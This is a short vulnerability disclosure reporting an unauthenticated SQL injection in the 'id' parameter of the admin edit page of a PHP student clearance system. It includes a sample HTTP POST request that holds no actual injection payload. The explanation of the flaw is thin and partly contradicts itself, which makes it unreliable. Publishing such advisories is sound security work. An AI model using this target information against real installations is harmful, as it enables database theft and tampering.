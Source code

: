 The Online Student Clearance System has an SQL injection vulnerability. Attackers can exploit this vulnerability to steal information or damage the database without authentication.





Source code address：https://www.sourcecodester.com/php/17892/online-clearance-system.html



The vulnerability is located in the /admin/edit-admin.php file. As can be seen in the code, the parameter 'id' obtains the administrator ID to be modified, and the input value is escaped through 'mysqli_real_escape_string' when processing form submissions. Finally, the SQL update statement is executed to modify the contents in the database.

![image-20250427211639367](images/image-20250427211639367.png)



Vulnerability verification：

```
POST /student_clearance/admin/edit-admin.php?id=11 HTTP/1.1
Host: 192.168.1.8
Content-Length: 477
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.8
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryb9i93HDoXzXN1Tik
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryb9i93HDoXzXN1Tik
Content-Disposition: form-data; name="txtfullname"

EKE, EMMANUEL EFA-EVAL
------WebKitFormBoundaryb9i93HDoXzXN1Tik
Content-Disposition: form-data; name="txtemail"

eva_2012@gmail.com
------WebKitFormBoundaryb9i93HDoXzXN1Tik
Content-Disposition: form-data; name="cmddesignation"

Admin
------WebKitFormBoundaryb9i93HDoXzXN1Tik
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryb9i93HDoXzXN1Tik--

```

 ![image-20250427211548134](images/image-20250427211548134.png)



































